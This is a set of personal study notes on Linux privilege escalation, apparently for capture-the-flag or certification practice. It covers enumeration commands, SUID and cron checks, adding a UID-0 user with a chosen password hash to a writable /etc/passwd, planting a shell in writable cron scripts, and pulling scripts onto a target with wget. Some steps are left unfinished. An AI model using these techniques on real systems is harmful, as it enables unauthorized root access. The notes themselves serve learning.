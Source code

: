 # Linux Privilege Escalation

## Basics and what to look for

- checklists and stuff:
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>

### Step 1: Manual Enumeration

- `hostname` : get hostname of target machine (maybe it has valuable information in name)- `uname -a` : print detailed system information about kernel --> useful for finding kernel vulnerabilities
- `proc/version` : proc filesystem provides info about target system processes; may give information on kernel version and additional info (compiler etc.)
- `/etc/issue` : systems can also be identified by looking at this file; usually contains info about OS
- `ps` : running processes with some information about them
  - `ps -A` : all running processes
  - `ps axjf` : view process tree
  - `ps aux` : processes for all users (a), displays user that launched the process (u)and shows processes that are not attached to a terminal (x)
- `env` : show environmental variables
- `sudo -l` : target system may be configured to run some commands with root privs; this command lists all commands the logged in user can run using sudo
- `ls -la` : no comment necessary
- `id` : provides general overview of user's privilege and group memberships; **can also be used to obtain same information for another user**
- `/etc/passwd` : see further down
  - can easily be cut and converted to useful list for brute-force attacks with: `cat /etc/passwd | cut -d ":" -f 1` or, since real user (i.e. no system users) usually have `home`-directory: `cat /etc/passwd | grep home`
- `history` : look for earalier commands on command line
- `ifconfig`
- `ip route`
- `netstat` : listing existing communications
  - `netstat -a` : show all listening ports and established connections
  - `netstat -at`/`netstat -au` : list only TCP or UDP connections
  - `netstat -l` : list ports in listening mode --> these ports are open!!
  - `netstat -tp` : list connections with service name and PID infor
  - `netstat -ano` : display all sockets, do not resolve names, display timers
- `find` : search target system for important info and potential privilege escalation vectors
  | Command | Purpose |
  | --- | ---|
  | `find . -name flag1.txt` | find the file named “flag1.txt” in the current directory |
  | `find /home -name flag1.txt` | find the file names “flag1.txt” in the /home directory |
  | `find / -type d -name config` | find the directory named config under “/” |
  | `find / -type f -perm 0777` | find files with the 777 permissions (files readable, writable, and executable by all users) |
  | `find / -perm a=x` | find executable files |
  | `find /home -user frank` | find all files for user “frank” under “/home” |
  | `find / -mtime 10` | find files that were modified in the last 10 days |
  | `find / -atime 10` | find files that were accessed in the last 10 day |
  | `find / -cmin -60` | find files changed within the last hour (60 minutes) |
  | `find / -amin -60` | find files accesses within the last hour (60 minutes) |
  | `find / -size 50M` | find files with a 50 MB size |
  | `find / -writable -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -perm -222 -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -perm -o w -type d 2>/dev/null` | Find world-writeable folders|
  | `find / -name perl\*` | Perl?? |
  | `find / -name python\*` | Python?? |
  | `find / -name gcc*` | C?? |

### Step 2: Automated Enumeration

- useful links:
  - <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>
  - <https://github.com/rebootuser/LinEnum>
  - <https://github.com/mzet-/linux-exploit-suggester>
  - <https://github.com/diego-treitos/linux-smart-enumeration>
  - <https://github.com/linted/linuxprivchecker>

### Step 3: `sudo -l`

- use `sudo -l` to list what commands you are able to use as a super user on that account
- sometimes like this you'll find that you're able to **run certain commands as root without the root password**
- with a misconfigured binary like this we can try to explain them with `GTFOBins` (Unix binaries that can be exploited by attacker to bypass local security restriction) --> <https://gtfobins.github.io/>

### Step 4: check for files with SUID/GUID bit set

- special type file permission which allows file to run with permissions of whoever the owner is --> if it is root: **BINGO**
  - files can be run with permissions of the files owner/group
- when special permission is given to each user it becomes SUID or SGID
  - when extra bit “4” is set to user(Owner) it becomes SUID (Set user ID)
  - when bit “2” is set to group it becomes SGID (Set Group ID)
- permissions to look for when looking for SUID: `rws-rwx-rwx`
- permissions to look for when looking for SUID: `rwx-rws-rwx`
- **finding SUID/GUID Binaries:**
  - `find / -perm -u=s -type f 2>/dev/null` explained:
    - `find` command
    - `/` search whole file system
    - `-perm` search for files with specific permissions
    - `-u=s` any of the permission bits mode are set for the files
    - `-type f` only search filge
    - `2>/dev/null` suppress errors

### Step 5: can we read/write sensitive files?

- interesting files e.g.:
  - `/etc/passwd` --> plan text file
    - if we have write access to this file: vulnerability that can allow the creation of a root user that we can access
    - file format:
      - total of seven columns separated by colons:
        - Example: `test:x:0:0:root:/root:/bin/bash`
          1. Username: login name
          2. Password: `x` character indicates that encrypted password is stored in `/etc/shadow`
          3. UserID (UID)
             1. UID 0 = reserved for root
             2. UIDs 1-99 reserved for predefined accounts
             3. UIDs 100-999 reserved by system for administrative and system accounts/groups
             4. UID > 999: Users
          4. GroupID
          5. UserID Info
          6. Home directory
          7. Command/Shell: absolute path of command or shell
    - **Exploit** `/etc/passwd`:
      - simple: if we have writable `/etc/passwd` we can
        - write new line entry to create new user...
        - ...add password hash of our choice
        - set the UID, GID and shell to root allowing us to log in as our own root user
      - Example:
        - create compliant password hash: `openssl passwd -1 -salt [salt] [password]`
        - take this value (WATCHOUT: special characters need to be escaped like `$` with `\$`) to create new root user account
          `newusername:<hashvalue>:0:0:root:/root:/bin/bash`
          Example (with \$): `newuser:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`
        - then you can login using the username and password hash with: `su -l <username>`
- Kernel information --> for kernel exploits
- can we read/write sensitive files?
  - world-writable files: files that any authenticated user can read and write to
  - looking at the permissions of these files, we can check if there is any misconfiguration that allows low privilege users to write to sensitive files
- SUID files
- Crontab Contents --> exploiting yet to check

### Step 6: Cron

- what cronjobs are active: `cat /etc/crontab`
- how to exploit:
  - look for cronjobs oder files that are being invoked by cronjob that are owned by root and if they are writable
  - create command that will return a shell and paste it in the file
  - when the file is executed again the script is run as root

### Step 7: Check PATH-Variable

- show PATH: `echo $PATH`
- how to escalate privileges:
  - if we have a SUID binary, we can rewrite the PATH variable to a location of our choosing
  - ??? nochmal checken wie genau das geht, war schlecht beschrieben

## How to get privlege escalation scripts on target machine

- different possibilites:
  - go to directory, where local copy of privesc script is located on the attaker machine and
    - start webserver: `python3 -m http.server 8000`
    - on the target machine: `wget` and grab the file from the local machine
    - then on target machine make the file executable: `chmod +x <filename.sh>`
  - copy the raw code from Zwischenablage in new file on target machine, save the file with `.sh`-extension and make file executable

## Further Reading

- <https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html>
- <https://payatu.com/blog/a-guide-to-linux-privilege-escalation/>
- <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>
- <https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/>
- ...
